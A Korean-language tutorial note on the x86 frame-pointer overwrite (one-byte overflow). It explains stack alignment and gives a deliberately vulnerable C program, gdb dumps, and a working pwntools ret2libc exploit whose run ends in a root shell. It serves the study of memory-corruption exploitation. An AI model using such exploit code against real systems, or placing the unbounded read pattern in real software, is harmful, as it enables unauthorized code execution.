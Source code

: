 # **x86 Frame Pointer Overwrite**

Frame Poineter를 1byte 덮어써 코드의 흐름을 변경하는 기법. One-byte Overflow라고도 한다.

### **Stack Alignment**
* x86-64 ABI는 16Byte Stack alignment가 필요하다.  
* ABI와 호환되지 않는 환경에서 스택 공간을 제한해서 사용하기 위함

**Stack alignment at 4-byte boundary**

```
0x080485c7 <+0>:  push   ebp
0x080485c8 <+1>:  mov    ebp,esp
~
0x080485ea <+35>: leave 
0x080485eb <+36>: ret
``` 

**Stack alignment at 16-byte boundary** 
1. main() 함수가 시작되는 부분에서 이전 함수에서 사용하던 Frame Pointer를 Stack에 저장하기 전에 Stack alignment 수행 
1. main() 함수가 종료되는 부분에서 leave 명령 실행 전, ebp 레지스터에 저장된 주소에 0x4를 뺀 주소 값을 esp 레지스터에 저장 
1. Stack alignment 코드가 적용되면 ret 코드가 실행되기 전에 "lea esp,[ecx-0x4]" 명령에 의해 esp 레지스터가 변경됨 
1. ecx 레지스터의 값은 leave 코드가 실행되기전에 ebp 레지스터를 이용해 값을 저장하기 때문에 esp 레지스터의 값을 변경할 수 있음 

```
0x080485d3 <+0>: lea    ecx,[esp+0x4]
```

* esp 레지스터에 저장된 값에 0x4를 더한 주소를 ecx에 저장

```
0x080485d7 <+4>: and    esp,0xfffffff0
```

* esp 레지스터에 저장된 값과 0xfffffff0을 AND 연산한 값을 저장(0xffffd59c & 0xfffffff0 = 0xffffd590) 이로 인해 Stack 주소가 16byte 경계에 맞춰짐

```
0x080485da <+7>: push   DWORD PTR [ecx-0x4]
```

* stack에 [ecx-0x4]주소에 저장된 값 저장(main() 함수가 종료되고 되돌아갈 Return address)  
* ESP 레지스터의 값이 leave 코드에 의해 변경되는 것이 아니라 lea esp,[ecx-0x4] 코드에 의해 변경된다.

## **Proof of Concept**

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o fpo fpo.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
  
void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 63);
}
  
void main(int argc, char *argv[]){
    if(argc<2){
        printf("argv error\n");
        exit(0);
    }
    vuln();
}
```

* 63byte를 입력받으면 ebp의 마지막 1byte가 overflow.

```
gdb-peda$ x/24wx 0xbfa07cfa(&buf)
0xbfa07cfa:	0x41414141	0x42424242	0x43434343	0x44444444
0xbfa07d0a:	0x45454545	0x46464646	0x47474747	0x48484848
```

* &buf+4(0xbfa07cfe)의 마지막 byte(0xfe)를 EBP의 마지막 바이트에 삽입.

```
gdb-peda$ x/24x $ebp
0xbfa07d02:	0x43434343	0x44444444	0x45454545	0x46464646
0xbfa07d12:	0x47474747	0x48484848	0x80ecb70a	0x0002b7d2
```

* mov ecx,DWORD PTR [ebp-0x4] 명령으로 0xbfa07cfe가 ecx 레지스터에 저장된다.  

```
gdb-peda$ x/24x $ecx-0x4
0x4242423e:	Cannot access memory at address 0x4242423e
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
p=process(['./fpo','AA'])

tmp = p.recvline().split(' ')[3]
printf = int(p.recvline().split(' ')[3],16)
buf = int(tmp,16)

print('buf    :%s'%hex(buf))
print('printf :%s'%hex(printf))

onebyte = int(tmp[8:11],16)
print('onebyte :%s'%hex(onebyte))

buf += 0x8
onebyte += 0x4

libBase = printf - 0x4a670
system = libBase + 0x3bda0
binsh = libBase + 0x15ca0b
exit = libBase + 0x2f9d0

print('libBase :%s'%hex(libBase))
print('system :%s'%hex(system))
print('/bin/sh :%s'%hex(binsh))
print('exit :%s'%hex(exit))

exploit = p32(buf)
exploit += p32(system)
exploit += p32(exit)
exploit += p32(binsh)
exploit += "\x90"*(62-len(exploit))
exploit += p32(onebyte)

p.sendline(exploit)

p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/fpo# python expliot.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './fpo': pid 3107
buf    :0xbfb2019a
printf :0xb7e4b670
onebyte :0x9a
libBase :0xb7e01000
system :0xb7e3cda0
/bin/sh :0xb7f5da0b
exit :0xb7e309d0
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/01.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x86>

